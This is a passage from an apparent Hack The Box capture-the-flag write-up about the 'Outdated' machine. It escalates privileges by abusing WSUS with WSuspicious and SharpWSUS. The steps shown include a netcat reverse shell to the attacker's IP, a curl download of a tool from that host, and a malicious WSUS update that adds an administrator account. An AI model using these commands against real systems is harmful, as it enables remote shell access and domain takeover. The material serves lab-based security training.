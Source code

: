 ```powershell
```

The server dies immediately and the test-file is not present, something is weird. Testing around I managed to get the server working propperly by setting up a new reverse connection:
```powershell
*Evil-WinRM* PS C:\Windows\Tasks> ./nc64.exe 10.10.14.4 4488 -e powershell
➜  outdated nc -lvnp 4488
listening on [any] 4488 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.175] 49257
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\Tasks> .\WSuspicious.exe /command:" - accepteula - s - d cmd / c 'echo test > C:\Windows\Tasks\wsuspicious.txt'" /autoinstall
.\WSuspicious.exe /command:" - accepteula - s - d cmd / c 'echo test > C:\Windows\Tasks\wsuspicious.txt'" /autoinstall
Detected WSUS Server - wsus.outdated.htb
Listening on 'ExplicitProxyEndPoint' endpoint at Ip 127.0.0.1 and port: 13337 
Hit any key to exit..
```

Waiting for a few minutes and still nothing happens.. there seems to be something wrong on our end as when reading about WSuspicious it should also force look for updates:
_"[WSuspicious](https://github.com/GoSecure/wsuspicious) is a C# program that takes the place of the user local proxy and forces the computer to look for updates while intercepting the WSUS traffic to inject a malicious payload."_


### Step 3
Looking on other tools we find [SharpWSUS](https://github.com/nettitude/SharpWSUS). Compile it, upload to target and exploit the target to create a new administrator user.

```powershell
*Evil-WinRM* PS C:\Windows\Tasks> curl http://10.10.14.4/SharpWSUS.exe -o C:\Windows\Tasks\SharpWSUS.exe


*Evil-WinRM* PS C:\Windows\Tasks> .\SharpWSUS.exe create /payload:'C:\Windows\Tasks\PsExec64.exe' /args:'-accepteula -s -d cmd.exe /c \"net user 0xpthree Password123! /add && net localgroup Administrators 0xpthree /add && net localgroup Remote Management Users 0xpthree /add"'

[*] Action: Create Update
[*] Creating patch to use the following:
[*] Payload: PsExec64.exe
[*] Payload Path: C:\Windows\Tasks\PsExec64.exe
[*] Arguments: -accepteula -s -d cmd.exe /c "net user 0xpthree Password123! /add && net localgroup Administrators 0xpthree /add && net localgroup Remote Management Users 0xpthree /add"
[*] Arguments (HTML Encoded): -accepteula -s -d cmd.exe /c &amp;quot;net user 0xpthree Password123! /add &amp;amp;&amp;amp; net localgroup Administrators 0xpthree /add &amp;amp;&amp;amp; net localgroup Remote Management Users 0xpthree /add&amp;quot;

################# WSUS Server Enumeration via SQL ##################
ServerName, WSUSPortNumber, WSUSContentLocation
-----------------------------------------------
DC, 8530, c:\WSUS\WsusContent

ImportUpdate
Update Revision ID: 54
PrepareXMLtoClient
InjectURL2Download
DeploymentRevision
PrepareBundle
PrepareBundle Revision ID: 55
PrepareXMLBundletoClient
DeploymentRevision
```